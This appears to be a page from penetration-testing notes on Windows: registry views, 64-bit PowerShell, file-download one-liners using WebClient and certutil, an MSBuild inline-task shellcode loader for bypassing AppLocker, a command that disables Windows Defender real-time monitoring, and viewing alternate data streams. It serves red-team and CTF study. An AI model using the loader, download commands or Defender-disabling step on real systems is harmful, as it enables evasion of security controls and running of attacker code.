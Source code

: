 # Windows

## Windows Registry

> The registry in 64-bit versions of Windows is divided into 32-bit and 64-bit keys. Many of the 32-bit keys have the same names as their 64-bit counterparts, and vice versa.

From [How to view the system registry by using 64-bit versions of Windows](https://support.microsoft.com/en-gb/help/305097/how-to-view-the-system-registry-by-using-64-bit-versions-of-windows).

If operating in a 32-bit process under a 64-bit system you will only be able to view the 32-bit registry.  For this reason, ensure all enumeration of the registry ocurrs from a 64-bit process.

## Process Migration

There can be a number of valid reasons to migrate processes, notably from 32-bit to 64-bit.  The reason is that certain exploits can only be executed from a 64-bit process, or there can be a want to view the 64-bit registry.

#### Launch x64 Powershell

```bash
%SystemRoot%\sysnative\WindowsPowerShell\v1.0\powershell.exe
```

## File Transfers

### powershell

```text
(New-Object System.Net.WebClient).DownloadFile("https://example.com/archive.zip", "C:\Windows\Temp\archive.zip")  
```

### certutil

```bash
certutil.exe -urlcache -split -f https://myserver/filename outputfilename
```

## Applocker

> AppLocker advances the app control features and functionality of Software Restriction Policies. AppLocker contains new capabilities and extensions that allow you to create rules to allow or deny apps from running based on unique identities of files and to specify which users or groups can run those apps.

Source: [What Is AppLocker?](https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/applocker/what-is-applocker)

Despite the power this gives the Administrator in locking down what users can and can't execute, there are a disturbing number of ways to bypass this.  [Ultimate Applocker Bypass List](https://github.com/api0cradle/UltimateAppLockerByPassList) aims to record most of them.

[GreatSCT ](https://github.com/GreatSCT/GreatSCT)can also be used to generate payloads to bypass these.

### MSBuild

We can use MSBuild to execute arbitrary shellcode. The Cn33liz [MSBuildShell ](https://github.com/Cn33liz/MSBuildShell)is one such example. To compile a `csproj` file we use:

```text
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe test.csproj
```

An example csproj file to include shellcode within is:

```markup
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
  <!-- This inline task executes shellcode. -->
  <!-- C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe SimpleTasks.csproj -->
  <!-- Save This File And Execute The Above Command -->
  <!-- Author: Casey Smith, Twitter: @subTee --> 
  <!-- License: BSD 3-Clause -->
  <Target Name="Hello">
    <ClassExample />
  </Target>
  <UsingTask
    TaskName="ClassExample"
    TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
    <Task>
    
      <Code Type="Class" Language="cs">
      <![CDATA[
        using System;
        using System.Runtime.InteropServices;
        using Microsoft.Build.Framework;
        using Microsoft.Build.Utilities;
        public class ClassExample :  Task, ITask
        {         
          private static UInt32 MEM_COMMIT = 0x1000;          
          private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;          
          [DllImport("kernel32")]
            private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr,
            UInt32 size, UInt32 flAllocationType, UInt32 flProtect);          
          [DllImport("kernel32")]
            private static extern IntPtr CreateThread(            
            UInt32 lpThreadAttributes,
            UInt32 dwStackSize,
            UInt32 lpStartAddress,
            IntPtr param,
            UInt32 dwCreationFlags,
            ref UInt32 lpThreadId           
            );
          [DllImport("kernel32")]
            private static extern UInt32 WaitForSingleObject(           
            IntPtr hHandle,
            UInt32 dwMilliseconds
            );          
          public override bool Execute()
          {
	  	byte[] shellcode = new byte[351] {};
	  	UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length,
                MEM_COMMIT, PAGE_EXECUTE_READWRITE);
              Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
              IntPtr hThread = IntPtr.Zero;
              UInt32 threadId = 0;
              IntPtr pinfo = IntPtr.Zero;
              hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
              WaitForSingleObject(hThread, 0xFFFFFFFF);
              return true;
          } 
        }     
      ]]>
      </Code>
    </Task>
  </UsingTask>
</Project>
```

## Windows Defender

Defender can be quite annoying when dealing with attacking remote windows systems.  Fortunately it's not too difficult to evade but it's always good to be aware of how to deal with it.  We can set a lot of the Windows Defender parameters with [Set-MpPreference](https://docs.microsoft.com/en-us/powershell/module/defender/set-mppreference?view=win10-ps).  To disable it use`Set-MpPreference -DisableRealtimeMonitoring $true`.  It's recommended to re-enable it after you're done.

### Attack Surface Reduction

​[https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-exploit-guard/enable-attack-surface-reduction](https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-exploit-guard/enable-attack-surface-reduction)

## Alternate Data Streams

This is more a  feature of the NTFS file system than it is a Windows feature, but it's important to understand from both a red-team and blue-team perspective.  

These are also disturbingly common in CTF's through the security via obscurity, so we need some method of viewing and potentially executing these alternate data streams.  To list all alternate data streams 

```text
dir /R
```

### Powershell

```bash
Get-Content -path C:\Users\Booj\ads -stream *
```

We can also view individual streams using

```text
Get-Content -path C:\Users\Booj\ads -stream <streamname>
```

### Windows Pre-Vista

In Windows prior to Vista, there's unfortunately no easy way of viewing these streams in default Windows without a GUI access.  In an engagement this may not be entirely practical.

The best version, working on XP, I found to be [LADS](https://www.aldeid.com/wiki/LADS), but a number of the links online appear to be dead.  The [Web Archive](http://web.archive.org/web/20150602054446/http://www.heysoft.de/download/lads.zip) version is still up so acquiring a copy is still possible.

## References

[Abatchy - Powershell Download File One-Liners](https://www.abatchy.com/2017/03/powershell-download-file-one-liners)  
[Sploitspren - Windows Privilege Escalation Guide](https://www.sploitspren.com/2018-01-26-Windows-Privilege-Escalation-Guide/)

